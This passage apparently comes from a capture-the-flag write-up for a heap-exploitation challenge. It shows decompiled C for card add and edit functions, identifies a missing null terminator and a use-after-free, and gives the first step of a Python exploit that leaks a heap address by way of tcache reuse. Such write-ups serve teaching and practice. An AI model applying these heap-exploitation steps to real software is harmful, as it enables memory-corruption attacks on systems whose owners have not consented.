 ```c
  v1 = card_struct[chunk_index];
  v1->card_name_ptr = malloc(0x28uLL);
  card_struct[chunk_index]->card_name_ptr->size = size;
  card_struct[chunk_index]->boolean = 1LL;
  v2 = card_struct[chunk_index]->card_name_ptr;
  v2->char_pointer = malloc(size);
  card_struct[chunk_index]->card_name_ptr->index = chunk_index;
  printf("Enter card color: ");
  read(0, card_struct[chunk_index]->card_color, 7uLL);
  printf("Enter name: ");
  read(0, card_struct[chunk_index]->card_name_ptr->char_pointer, size);
  puts("Done.");                                // not null terminated!
  sizes[chunk_index++] = size;
}
```

##### Edit Card
Here we've got a UAF. The function does not check if a card has been freed.
```c
unsigned __int64 edit_name(){
  unsigned int v1; // [rsp+4h] [rbp-Ch]
  
  printf("Enter the index of the card: ");
  v1 = get_option();
  if ( v1 <= chunk_index && card_struct[v1]->boolean )// Use After Free!
  {
    printf("Enter new name: ");
    read(0, card_struct[v1]->card_name_ptr->char_pointer, sizes[v1]);
    puts("Edited");
  }
  else
  {
    puts("Nope");
  }
}
```

##### View Card
Nothing here, the function does proper checks. It just outputs the fields of a card.


## Exploit
Here is the exploit logic and comments. For the full file, see exploit.py
```python
#####################################
# LEAK THE HEAP'S BASE ADDRESS!
#####################################
# How do we do this?
# add_card does: malloc(0x28) for card struct, malloc(0x28) for string struct, malloc(input) for name string.
# rm_card frees card struct, string struct, then string itself.
# Let's use 0x28 as size for the name.
a = add_card(0x28, 'red', 'a'*0x28)

# After this free, the tcache bin will look like:
# name string -> string struct -> card struct
rm_card(a)

# Therefore, adding another card, our name string will take the 3rd element in the bin, the card struct.
# The card struct's 3rd member is a pointer to its string struct and it is still there in memory.
# We can leak it thanks to the fact that no null terminator is appended to our name string.
b = add_card(0x28, 'red', 'b'*0x10)
view_card(b)
```